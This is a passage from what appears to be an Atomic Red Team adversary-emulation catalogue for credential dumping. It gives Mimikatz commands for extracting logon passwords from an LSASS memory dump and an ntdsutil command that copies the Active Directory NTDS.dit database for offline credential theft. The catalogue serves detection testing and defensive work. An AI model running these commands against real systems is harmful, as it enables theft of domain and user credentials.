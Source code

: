 **Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| input_file | Path where resulting dump should be placed | Path | lsass_dump.dmp|

#### Run it with these steps!
1. Open Mimikatz:
  Execute `mimikatz` at a command prompt.

2. Select a Memory Dump:
  Within the Mimikatz interactive shell, execute `sekurlsa::minidump #{input_file}`

3. Obtain Credentials:
  Within the Mimikatz interactive shell, execute `sekurlsa::logonpasswords full`


<br/>
<br/>

## Atomic Test #8 - Dump Active Directory Database with NTDSUtil
The Active Directory database NTDS.dit may be dumped using NTDSUtil for offline credential theft attacks. This capability
uses the "IFM" or "Install From Media" backup functionality that allows Active Directory restoration or installation of
subsequent domain controllers without the need of network-based replication.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_folder | Path where resulting dump should be placed | Path | C:\Atomic_Red_Team|

#### Run it with `command_prompt`!
```
ntdsutil “ac i ntds” “ifm” “create full #{output_folder} q q
```
<br/>
